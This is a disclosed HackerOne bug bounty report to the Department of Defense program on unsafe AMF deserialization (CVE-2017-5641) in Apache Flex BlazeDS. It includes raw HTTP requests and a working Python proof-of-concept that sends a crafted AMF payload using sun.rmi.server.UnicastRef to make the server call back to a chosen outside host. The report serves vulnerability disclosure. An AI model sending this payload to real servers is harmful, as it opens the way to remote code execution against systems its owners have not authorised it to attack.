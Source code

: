 # [HTAF4-213] [Pre-submission] Unsafe AMF deserialization (CVE-2017-5641) in Apache Flex BlazeDS at the https://www.███████/daip/messagebroker/amf

## Report Details
- **Report ID**: 728614
- **URL**: https://hackerone.com/reports/728614
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-11-04T04:12:19.019Z
- **Disclosed**: 2024-06-18T17:04:47.779Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
We identified potential unsafe deserialization vulnerability on the `https://www.█████/daip/messagebroker/amf` endpoint.

##POC
To exclude false-positive reaction and show that pingback is result of AMF deserialization, and not a reaction to the external host in the POST body, first run this request:
```
POST /daip/messagebroker/amf HTTP/1.1
Host: www.███████
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.22.0
Content-Type: application/x-amf
Content-Length: 51

<your collaborator host>
```
Nothing will happen. You will receive something like this:
███
You can wait few minutes to ensure that nothing is coming.

Next, send the collaborator host inside the serialized AMF payload using this script, e.g. `script.py <collaborator> 80`
```
import struct
import sys
import requests
 
if len(sys.argv) != 3:
    print "Usage: host port"
    quit()
 

callback_IP = sys.argv[1]
callback_port = sys.argv[2]
 
amf_payload = '\x00\x03\x00\x00\x00\x01\x00\x00\x00\x00\xff\xff\xff\xff\x11\x0a' + \
              '\x07\x33' + 'sun.rmi.server.UnicastRef' + struct.pack('>H', len(callback_IP)) + callback_IP + \
              struct.pack('>I', int(callback_port)) + \
              '\xf9\x6a\x76\x7b\x7c\xde\x68\x4f\x76\xd8\xaa\x3d\x00\x00\x01\x5b\xb0\x4c\x1d\x81\x80\x01\x00';
 
url = "https://www.███████/daip/messagebroker/amf"
headers = {'Content-Type': 'application/x-amf'}
response = requests.post(url, headers=headers, data=amf_payload, verify=False)
```

This will result in the significant delay, and soon you will get the pingback from the ███/███ IP
This indicates, that backend server deserialized AMF data and triggered a DNS lookup (there won't be http since `sun.rmi.server.UnicastRef` doesn't communicate via http).

##Suggested fix
Update Apache Flex BlazeDS library

## Impact

Unsafe deserialization of AMF data.
We will work on this and try to improve impact, if possible.

## Attachments
No attachments
